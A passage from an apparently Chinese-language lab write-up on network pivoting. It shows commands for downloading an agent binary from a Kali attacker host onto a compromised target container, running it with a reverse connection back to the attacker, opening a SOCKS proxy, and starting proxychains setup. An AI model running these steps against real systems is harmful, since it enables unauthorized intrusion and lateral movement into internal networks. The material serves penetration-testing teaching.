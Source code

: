 ![image-20210918110518309](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20210918110518309.png)

再使用**客户端**（目标容器系统）**访问Kali来下载**agent_linux_x64

```
wget http://10.0.2.4/agent_linux_x64
```

```
ls
```

并赋予agent_linux_x64可执行权限

```
chmod +x agent_linux_x64
```

![image-20210918110710067](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20210918110710067.png)

启动客户端程序，与Kali建立连接

```
./agent_linux_x64 -rhost 10.0.2.4 -rport 9999
```

![image-20210918110830474](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20210918110830474.png)

服务器端也接收到了客户端的连接请求

#### 2.4建立连接

```
show #显示已连接成功的节点
```

```
goto 1 #连接当前该节点
```

![image-20210918110902587](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20210918110902587.png)

```
socks 1080
```

启动socks监听1080端口，建立一条**代理通道**，让kali能够通过代理去**正常访问**目标容器系统**内网网段**，方便使用kali上的各类工具

![image-20210918111109130](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20210918111109130.png)

利用proxychains**建立代理**

在Kali端 修改配置文件

```
sudo vi /etc/proxychains4.conf 
```

![image-20210918111302194](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20210918111302194.png)
